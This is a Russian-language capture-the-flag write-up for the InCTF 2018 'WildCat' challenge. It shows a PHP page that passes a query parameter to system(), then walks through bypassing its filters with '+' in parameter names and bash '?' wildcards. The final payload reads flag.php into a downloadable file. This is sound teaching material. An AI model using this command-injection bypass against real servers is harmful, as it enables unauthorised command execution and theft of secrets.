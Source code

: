```yaml
---
title: Neo's Fun - Write Up InCTF2018 WildCat
---
```


# Writeup WildCat (InCTF 2018)


## Первый раз

Код страницы с http://18.191.205.153/

```
<img src='cat.jpg' height=400><!-- is_debug -->
```
Ничего особенного кроме "is_debug" - спасибо `Daniil159x`

## Собираем информацию о сервере

Смотрим заголовки ответа от сервера

1. Делаем кривой запрос через nc

```
$ nc 18.191.205.153 80
```
Тут вводим следующее
```
GET / HTTP/1.1
```
И жмем enter
```
HTTP/1.1 400 Bad Request
Date: Sun, 07 Oct 2018 12:46:21 GMT
Server: Apache/2.4.25 (Debian)
Content-Length: 302
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.25 (Debian) Server at 172.17.0.2 Port 80</address>
</body></html>
```
В заголовках ответа видим `Apache/2.4.25 (Debian)` - то есть запущено под Apache на Debian


## По методу от Daniil159x

http://18.191.205.153/?is_debug

Видимо

```
<?php
error_reporting(0);
include('flag.php');
$message = "<img src='cat.jpg' height=400><!-- is_debug -->";

if (isset($_GET['is_debug']))
    {
    highlight_file(__FILE__) and die();
    }
  else
    {
    $qs = $_SERVER['QUERY_STRING'];
    if(!(substr_count($qs, '_') > 0) && !(substr_count($qs, '%')> 1))
        {
            $cmd = $_GET['c_m_d'];
            if(!preg_match('/[a-z0-9]/is', $cmd)){
                system("/sandboxed_bin/".$cmd);
            }else{
                echo $message;
                die();
            }
        }
    echo $message;
        die();
    }
?>

```

## После долго изучения

Понимаем что нужно каким то образом прописать параметр странице /?c_m_d=bash_command
1. QUERY_STRING не должна содержать символ '_' и более одного '%'
2. bash_command не должна содержани ни a-z ни 0-9 (проверяется на preg_match)
Если пройти эти условия то bash_command будет выполнена


## Обходим 1-ую проблему

Знание: Пробел " " можно заменить на "+" или на "%20" (что делает обычно браузер)

Где то в пхп есть обработчик (конвертор) имен параметров get (наш `c_m_d`), который не любит пробелы в именах параметров и меняет их на "_". То есть если мы напишем `/?c+m+d=` то мы пройдем первое условие а парсер GET параметров переведет его из `c+m+d` вначале в `c m d` а потом в `c_m_d` и к моменту выполнения кода на этой строке: `$cmd = $_GET['c_m_d'];` все будет ок.

## Обходим 2-ую проблему

### Время справки
WildCat как оказалось отсылка к WildCards (Почитать можно если в поисковой системе набрать `bash wildcards`)

Смысл очень простой:

* `*` - символ означающий любое количество любых символов
* `?` - один любой сивол

Если попробовать выполнить в вашей домашней директории команду 

```
$ .*
bash: .: ..: это каталог
```
*Ха-ха... баш нашел '..' и сказал что нельзя выполнить это так как это каталог*

### Вернемся к заданию

В общем нам нельзя передавать в `c_m_d` ничего вразумительного...
нас останавливает вот эта вот строка `if(!preg_match('/[a-z0-9]/is', $cmd)){`

И еще выполняется будет программа которая которая лежит в каталоге "/sandboxed_bin/" (См  *system("/sandboxed_bin/".$cmd);*)

Предположим что там есть `cat` а вывести мы хотим `flag.php` и желательно куда нить в файл `> .$` где `.$` имя файла

Тогда это будет так: 
`/sandboxed_bin/cat flag.php > .$`

То есть GET-запрос передать нужно так:

`/?c+m+d=cat+flag.php+>+.$`

Но символы использовать нельзя поэтому меняем все символы на знак `?` (см wildcards):

`/?c+m+d=???+????.???+>+.$`

Выполняем:

`http://18.191.205.153/?c+m+d=???+????.???+%3E+.$`

И запрашиваем файл:

`http://18.191.205.153/.$`

Нам вернется содержимое файла `flag.php` записанный в `.$`.
Так как `.$` без расширения `.php` он сервером интерпретироваться не будет и вернятся как есть:

```
<?php
$flag = "inctf{PhP_TriCk_wIth_wiLdC@rd_byPa$$}";
?>
```

## Флаг сдан

Спасибо.






